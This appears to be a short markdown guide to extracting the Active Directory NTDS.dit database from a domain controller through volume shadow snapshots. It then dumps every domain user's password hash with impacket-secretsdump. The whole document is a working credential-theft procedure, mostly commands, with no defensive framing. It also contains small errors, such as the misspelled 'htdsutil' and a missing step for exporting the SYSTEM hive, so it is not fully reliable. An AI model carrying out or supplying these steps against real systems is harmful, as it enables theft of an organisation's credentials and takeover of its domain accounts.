

# NTDS File Recovery & Domain Users Hash List

NTDS extraction using Shadow Copy method.

<br>

#### NTDS.dit File
 - Go to `C:/Windows/NTDS`.
 - Find the file `ntds.dit`.
 - Notice how you can't open/read/change this file because there is an exclusive lock on the file.

#### Open a Admin CMD Propmt
Run the following commands:
```bash
htdsutil
snapshot
Activate Instance ntds
create
list all
mount 2
```
 - The `2` in `mount 2` will be whatever number the C Drive is shown to be in the `list all` command.



 - Navigate to the C Drive and you will now see an extra link. Go to the location of the ntds.dit file and copy it somewhere else.

#### Cleanup
Run the following:
```bash
delete 2
quit
quit
```

 - The `2` in `delete 2` will be the same number from above, in our case it was 2.

#### Open Kali and Display Hashes
Open a temrinal and run the following:
```bash
impacket-secretsdump -ntds ntds.dit -system system.sav LOCAL
```

 - This command will take a few seconds to run but once it does you will have a complete list of domain user hashes.

 - NOTE: You will need the SYSTEM file from the registry of the machine.